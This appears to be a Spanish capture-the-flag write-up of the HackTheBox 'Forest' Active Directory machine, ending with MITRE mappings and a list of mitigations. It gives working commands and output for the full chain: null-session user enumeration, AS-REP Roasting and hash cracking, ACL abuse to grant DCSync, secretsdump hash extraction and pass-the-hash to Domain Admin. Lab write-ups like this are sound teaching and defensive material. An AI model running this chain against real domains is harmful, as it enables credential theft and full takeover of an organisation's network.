








Resumen
Forest es una máquina de Active Directory que permite practicar un ataque end-to-end contra un Domain Controller sin necesidad de explotar ninguna vulnerabilidad de software. Todo el camino de ataque se apoya en configuraciones por defecto y permisos mal asignados: enumeración de usuarios vía sesión nula, AS-REP Roasting para el acceso inicial, abuso de pertenencia a Account Operators, abuso de un WriteDacl heredado de Exchange Windows Permissions y, finalmente, un DCSync para extraer el hash del Administrador del dominio.
1. Reconocimiento
Escaneo inicial de todos los puertos:
nmap -p- --open -sS --min-rate 5000 10.129.X.X -oX scans/first_scan.xml
PORT STATE SERVICE
53/tcp open domain
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
5985/tcp open wsman
9389/tcp open adws
47001/tcp open winrm
...La combinación de puertos (53, 88, 389, 445, 3268/3269 Global Catalog, 9389 ADWS, 464 kpasswd) identifica inequívocamente un Domain Controller de Active Directory.
Escaneo de versiones sobre los puertos relevantes:
nmap -p 53,88,139,389,445,464,3268,3269,9389 -sC -sV 10.129.X.X -oX scans/second_scan.xml
PORT STATE SERVICE VERSION
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: htb.local)
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 (workgroup: HTB)
...
Computer name: FOREST
Domain name: htb.local
Forest name: htb.local
FQDN: FOREST.htb.localKRB_AP_ERR_SKEW en operaciones posteriores basadas en Kerberos, resueltos sincronizando la hora local con la del DC.Datos obtenidos: nombre de dominio (htb.local), nombre NetBIOS (FOREST) y versión del SO (Windows Server 2016).
2. Enumeración de usuarios (sesión nula)
El usuario guest existe pero está deshabilitado:
nxc smb 10.129.X.X -u 'guest' -p '' --shares
[-] htb.local\guest: STATUS_ACCOUNT_DISABLEDSin embargo, el servidor permite una sesión nula RPC (-U "" -N, sin usuario ni contraseña), lo que es una mala configuración habitual en entornos AD heredados:
rpcclient -U "" -N htb.local
rpcclient $> enumdomusersEsto permitió listar todos los usuarios y grupos del dominio, incluyendo varias cuentas de servicio de Exchange y usuarios "normales". Usuarios relevantes: Administrator, krbtgt, sebastien, lucinda, svc-alfresco, andy, mark, santi. Grupos relevantes: Account Operators, Exchange Windows Permissions, Domain Admins, Enterprise Admins.
Esta lista de usuarios se guardó (users.txt) para usarla en los siguientes pasos.
3. Acceso inicial — AS-REP Roasting (MITRE T1558.004)
Antes de intentar AS-REP Roasting se probó un ataque de password spraying básico con nxc contra la lista de usuarios (contraseña vacía / contraseñas comunes), sin resultado.
El siguiente paso fue comprobar si algún usuario tiene la preautenticación Kerberos desactivada (flag UF_DONT_REQUIRE_PREAUTH en su userAccountControl). Si es el caso, el KDC entrega directamente un TGT cifrado con la clave derivada de la contraseña del usuario, sin validar ninguna credencial previa — por lo que el ticket se puede solicitar y crackear offline sin haberse autenticado nunca:
nxc ldap 10.129.X.X -u users.txt -p '' --asreproast asrep_hashes.txt
[+] $krb5asrep$23$svc-alfresco@HTB.LOCAL:09a027bef118df0b438b91669582176c$4919aa9a...La cuenta svc-alfresco tenía la preautenticación deshabilitada. Cracking offline del hash con hashcat:
hashcat -m 18200 asrep_hashes.txt rockyou.txtContraseña: s3rvice
Verificación de las credenciales:
nxc smb 10.129.X.X -u 'svc-alfresco' -p 's3rvice'
SMB 10.129.X.X 445 FOREST [+] htb.local\svc-alfresco:s3rvice4. Movimiento lateral — BloodHound y abuso de ACLs
Recolección de datos de AD con bloodhound-python:
bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d htb.local -c ALL -ns 10.129.X.XAl cargar los datos en BloodHound se identificó la ruta de ataque hacia Domain Admin:


svc-alfresco pertenece (de forma anidada) al grupo Account Operators.
El grafo también muestra que el grupo Exchange Windows Permissions tiene permiso WriteDacl sobre el objeto del dominio.
DS-Replication-Get-Changes y DS-Replication-Get-Changes-All, que juntos habilitan un ataque DCSync para extraer los hashes de cualquier usuario del dominio, incluido el Administrador.Con esto, la cadena de ataque queda clara: svc-alfresco → Account Operators (crear usuario) → usuario nuevo en Exchange Windows Permissions (heredar WriteDacl) → WriteDacl sobre el dominio → DCSync → hash del Administrador.
Acceso a la máquina:
evil-winrm -i 10.129.X.X -u svc-alfresco -p s3rviceObtengo la flag correspondiente al usuario.

Aprovechando los privilegios de Account Operators, se crea un usuario propio y se añade a los grupos necesarios:
net user hacker ******** /add /domain
net group "Exchange Windows Permissions" hacker /add
net localgroup "Remote Management Users" hacker /add


El grupo Remote Management Users es necesario para poder autenticar con este usuario vía WinRM; Exchange Windows Permissions hereda el WriteDacl sobre el dominio identificado en BloodHound.
5. Escalada a Domain Admin — DCSync (MITRE T1003.006)
Con el nuevo usuario ya dentro de Exchange Windows Permissions, el siguiente paso es concederse explícitamente el derecho de replicación (DCSync) sobre el dominio, usando PowerView.ps1:
$SecPassword = ConvertTo-SecureString '********' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\hacker', $SecPassword)
Add-DomainObjectAcl -PrincipalIdentity 'hacker' -Credential $Cred -TargetIdentity "DC=htb,DC=local" -Rights DCSyncCon el derecho DCSync concedido, se extraen los hashes de todo el dominio:
secretsdump.py htb.local/svc-alfresco:s3rvice@10.129.X.X
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::Verificación con crackmapexec / nxc de que el hash es válido para el Administrador del dominio:

6. Compromiso final
Acceso como Administrador mediante Pass-the-Hash:
evil-winrm -i 10.129.X.X -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'
Control total del Domain Controller.
Cadena de ataque (MITRE ATT&CK)
Enumeración de usuarios — Sesión nula RPC (T1087.002)
Acceso inicial — AS-REP Roasting (T1558.004)
Escalada lateral — Abuso de pertenencia a Account Operators (T1098)
Escalada de privilegios — Abuso de ACL (WriteDacl) + DCSync (T1003.006)
Acceso final — Pass-the-Hash (T1550.002)
Mitigación
Deshabilitar sesiones nulas (RestrictAnonymous / RestrictAnonymousSAM) para evitar la enumeración de usuarios y grupos sin autenticación.
Forzar la preautenticación Kerberos en todas las cuentas; auditar periódicamente el atributo UF_DONT_REQUIRE_PREAUTH.
Políticas de contraseñas robustas en cuentas de servicio — s3rvice es una contraseña débil y predecible, crackeable con una wordlist estándar en segundos.
Revisar la pertenencia a grupos privilegiados integrados (Account Operators, Backup Operators, etc.) y aplicar el principio de mínimo privilegio.
Auditar las ACLs del dominio regularmente (p. ej. con BloodHound) para detectar permisos heredados o mal configurados como WriteDacl, GenericAll o GenericWrite sobre objetos sensibles.
Monitorizar eventos de DCSync (Event ID 4662 con los GUIDs de DS-Replication-Get-Changes) para detectar extracciones de hashes no autorizadas.